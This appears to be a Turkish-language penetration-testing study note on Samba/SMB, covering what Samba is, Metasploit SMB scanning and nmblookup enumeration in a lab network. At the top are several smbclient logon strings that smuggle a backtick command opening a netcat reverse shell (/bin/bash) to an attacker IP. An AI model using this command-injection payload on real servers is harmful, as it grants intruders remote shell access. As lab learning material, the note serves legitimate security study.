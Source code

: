 ## smb: > logon "/=`nc 192.168.200.1 4444 -e /bin/bash`"

### logon "/='nc 192.168.200.1 4444 -e /bin/bash'"

https://medium.com/@nmappn/exploiting-smb-samba-without-metasploit-series-1-b34291bbfd63

### logon "/='nc 10.0.2.4 4444 -e /bin/bash'"

---


---



## SMB - Samba 1

Samba, Linux ve Unix işletim sistemleri ile Windows NT ve Windows 9x işletim sistemleri arasındaki iletişimi sağlayan bir ağ sunucusu uygulamasıdır. Samba, Linux ve Unix sistemlerinde dosya ve yazıcı paylaşımını mümkün kılar. Ayrıca, Windows etki alanı kontrolörü (domain controller) olarak da kullanılabilir.

Samba, Linux, macOS ve Windows işletim sistemlerinde kullanılabilir. Linux ve macOS sistemlerinde, Samba genellikle varsayılan olarak kurulur. Windows sistemlerinde ise Samba, ayrı olarak kurulmalıdır.

---
#smb-msfconsole
## MSFCONSOLE ile de SAMBA üzerinden enumeration yapılabilir
>msfconsole
>search smb scanner
>use 20 
options
>set RHOSTS 10.0.2.5
>run

---


## NBMLOOKUP
#smb-nmblookup 
![[Pasted image 20240124121346.png]]

**Nmblookup, Samba sunucularını ağda keşfetmek için kullanılan bir komut satırı aracıdır.** Linux, macOS ve Windows işletim sistemlerinde kullanılabilir.
Nmblookup, aşağıdakileri yapmak için kullanılabilir:
- Samba sunucularını ağda bulmak
- Samba sunucularının adını, IP adresini ve hizmetlerini bulmak
- Samba sunucularının paylaşımlarını bulmak
![[Pasted image 20240124121510.png]]
##### NMBLOOKUP ile yaptığımız enumeration sonrasında <20> olarak gördüğümüz bölüm bağlı olduğumuz bir server olduğunu gösterir. Buradan smbclient'a devam edebiliriz.

---
